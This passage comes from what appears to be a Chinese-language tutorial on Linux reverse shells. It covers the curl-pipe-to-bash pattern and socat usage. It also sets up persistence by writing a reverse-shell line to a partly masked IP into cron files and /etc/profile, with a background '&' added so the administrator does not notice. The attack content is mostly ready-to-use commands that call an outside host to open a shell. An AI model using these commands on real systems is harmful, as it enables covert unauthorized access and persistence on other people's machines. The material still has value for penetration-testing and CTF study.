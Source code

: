 ![](https://ask.qcloudimg.com/http-save/yehe-5957324/5wnf7syl54.png)

根据 curl 命令和 Linux 管道的作用，你不难理解这其中的原理。

Curl 配合 Bash 反弹 shell 的方式在 CTF 题目中经常出现，`curl IP|bash` 中的 IP 可以是任意格式的，可以是十进制、十六进制、八进制、二进制等等。

### **将反弹 shell 的命令写入定时任务**

我们可以在目标主机的定时任务文件中写入一个反弹 shell 的脚本，但是前提是我们必须要知道目标主机当前的用户名是哪个。因为我们的反弹 shell 命令是要写在 `/var/spool/cron/[crontabs]/<username>` 内的，所以必须要知道远程主机当前的用户名。否则就不能生效。

比如，当前用户名为 root，我们就要将下面内容写入到 /var/spool/cron/root 中。(centos 系列主机)

比如，当前用户名为 root，我们就要将下面内容写入到 /var/spool/cron/crontabs/root 中。(Debian/Ubuntu 系列主机)

```
*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/47.xxx.xxx.72/2333 0>&1#每隔一分钟，向47.xxx.xxx.72的2333号端口发送shell

```

### **将反弹 shell 的命令写入 / etc/profile 文件**

将以下反弹 shell 的命写入 / etc/profile 文件中，/etc/profile 中的内容会在用户打开 bash 窗口时执行。

```
/bin/bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1 &# 最后面那个&为的是防止管理员无法输入命令

```

image-20210127221718744

当目标主机管理员远程连接该主机时，就会执行该命令，成功获得目标机的 shell：

![](https://ask.qcloudimg.com/http-save/yehe-5957324/7vbz447qf7.png)

**利用 Socat 反弹 shell**
---------------------

Socat 是 Linux 下一个多功能的网络工具，名字来由是”Socket CAT”，因此可以看出它是基于 socket 的，其功能与 netcat 类似，不过据说可以看做 netcat 的加强版，事实上的确也是如此。我这里只简单的介绍下怎么使用它开启监听和反弹 shell，其他详细内容可以参见这里：http://brieflyx.me/2015/linux-tools/socat-introduction/

安装 Socat 的方法很简单：

•Ubuntu 等可以直接使用 `apt-get install socat` 命令进行安装 • 也可以去官网下载源码包：http://www.dest-unreach.org/socat

**攻击机开启本地监听：**

```
socat TCP-LISTEN:2333 -或nc -lvvp 2333

```

**目标机主动连接攻击机：**

```
socat tcp-connect:47.xxx.xxx.72:2333 exec:'bash -li',pty,stderr,setsid,sigint,sane

```
